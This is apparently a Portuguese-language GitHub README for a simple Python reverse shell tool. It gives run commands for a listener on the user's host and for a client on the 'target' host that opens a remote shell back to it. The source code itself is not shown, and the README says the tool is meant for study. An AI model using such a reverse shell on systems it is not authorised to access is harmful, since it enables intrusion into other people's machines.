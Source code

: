 # Python Reverse Shell

Script simplificado e minimalista que executa a criação de um reverse shell entre servidor e cliente.

## 🚀 Run

 1. Executar ReverseShell-server.py em seu host.
 ```
python ReverseShell-server.py
 ```
 2. Executar ReverseShell-client.py no host alvo.
 ```
python ReverseShell-client.py targetIP
 ```
 Exemplo
 ```
python ReverseShell-client.py 127.0.0.1
 ```
### 📋 Pré-requisitos

-> Python


### 🔧 Instalação

Não requer instalação.



## 🛠️ Construído com

-> Python 3.9.2


## 📌 Versão

-> 1.0


## 📄 Termos

Não me responsabiliso por qualquer uso inadequado/indevido desta aplicação.

Esta aplicação foi constuída apenas com propósito de estudo.

---
⌨️ com ❤️ por [BraiNiac](https://github.com/babyboydaprince) 😊
